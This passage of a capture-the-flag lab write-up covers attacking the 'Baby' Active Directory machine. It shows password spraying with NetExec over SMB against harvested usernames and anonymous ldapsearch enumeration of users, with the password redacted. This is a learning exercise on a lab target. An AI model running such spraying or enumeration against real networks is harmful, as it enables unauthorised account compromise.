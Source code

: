 Teresa Bell has this password in her description. Additionally, it appears she may be part of an organizational unit (OU) of "it" which could related to the IT department which corresponds to the initial password description for new users.

## Password Spraying

Testing if this password works via SMB by using NetExec results in no success:

```bash
nxc smb 10.10.115.109 -u teresa.bell -p '[PASSWORD]'
```

![](Baby-TeresaFailureBlur2.png)

It fails. Attempting to use the usernames extracted earlier with this password in a spraying attack results in the following:

```bash
nxc smb 10.10.115.109 -u users.txt -p '[PASSWORD]'
```

![](Baby-SprayingBlur.png)

No success. I got stuck here for a long time. Eventually, I looked back through the full output of the initial `ldapsearch` command and found that I had missed some users such as "Carole Robinson" as they had no email.

Using a filter for the "dn" or Distinguished Names reveals these new users:

```bash
ldapsearch -x -b "DC=baby,DC=vl" -H ldap://10.10.115.109 | grep "dn"
```

![](Baby-Carole.png)
